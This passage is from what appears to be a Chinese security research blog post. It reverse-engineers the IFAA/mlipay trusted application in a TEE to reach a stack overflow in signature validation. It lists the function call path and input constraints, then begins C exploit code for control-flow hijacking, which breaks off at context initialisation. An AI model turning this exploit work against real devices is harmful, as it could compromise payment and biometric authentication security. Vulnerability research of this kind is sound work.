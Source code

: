 > 注：这个request是IFAA server生成的数据，传递给IFAA TA进行解析处理，处理后IFAA TA回给IFAA Server对应的response，当然IFAA TA无法与IFAA Server直接通信，因此所有数据正常情况下都由IFAA TA对应的CA进行转发

那么议题中的漏洞示例是通过哪条路调用到sub_801F27C的呢？在PPT的java payload部分可以看到，根节点1后跟着的是立即数2，因此漏洞示例的触发方式应该是走的注册request分支，即sub_801F49C：

![image](https://xuanxuanblingbling.github.io/assets/pic/pengpai/java.png)

从sub_801F49C往上交叉引用的结果没有岔路，跟三层即可回到PTA mlipay的invoke入口函数sub_801EB58：

1. sub_801FA5C: ifaa_tz_register
2. sub_80203D4: process_ifaa_cmd
3. sub_801EB58: mp_handler (mlipay invoke)

因此就是从sub_801EB58开始逆向，逆向的目标为：确定输入数据`a4[0].memref.buffer`应该如何组织才能最后走到sub_801F27C并触发漏洞。因此在逆向过程中也可以不断地变换输入，然后观察打印的日志确认目标路径是否执行，辅助逆向：

![image](https://xuanxuanblingbling.github.io/assets/pic/pengpai/re5.png)

其中sub_80203D4比较长，看起来比较难逆，但其实也有技巧，比如最后调用到sub_801FA5C的路径限制，中间的一大堆只需要令v12等于2即可跳过，因此也能猜出来v12就是注册request的那个2：

> 不要抵触猜，逆向过程中都是连蒙带猜的，这其实是经验的体现

![image](https://xuanxuanblingbling.github.io/assets/pic/pengpai/re6.png)

另外sub_80203D4解析的数据也可以参考标准文档中的IFAA TA接口规范，这里就是按照这个标准实现的：

> [IFAA本地免密技术规范(T/IFAA 0001-2016)](https://ifaa.org.cn/bjc/file/1193e9120f0b11e9beb60242c0a82a17?download=true)

![image](https://xuanxuanblingbling.github.io/assets/pic/pengpai/ifaa3.png)

总体关键的解析函数以及对应的逆向方法如下：

- sub_801EB58: mp_handler: 入口函数，就俩条件，手逆
- sub_80203D4: process_ifaa_cmd: 参考文档中的IFAA TA接口规范
- sub_801F27C: ifaa_in_validate_req_sig: 参考文档中的TLV协议部分

最终可以走到sub_801F27C中并触发栈溢出完成控制流劫持的exp如下：

> 需要注意：在sub_80203D4中对`op.params[1].tmpref.buffer`传入的输出buffer也有一个小约束

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <tee_client_api.h>

void debug(char * buf,int len){
    for(int i=0;i<len;i++){
        if((i%8==0)  && (i!=0)) printf("  ");
        if((i%16==0) && (i!=0)) printf("\n");
        printf("%02X ",buf[i] & 0xff);
    }
    printf("\n");
}

int main(void){
    TEEC_Context ctx ;
    TEEC_Session sess;
    TEEC_Operation op;
    TEEC_UUID uuid = {0x66F1C983, 0x2444, 0x42B4,{0x8D, 0xB1, 0x32, 0xB2, 0x89, 0x48, 0x61, 0x76 }};

    int r = 0;

    r = TEEC_InitializeContext(NULL, &ctx);
```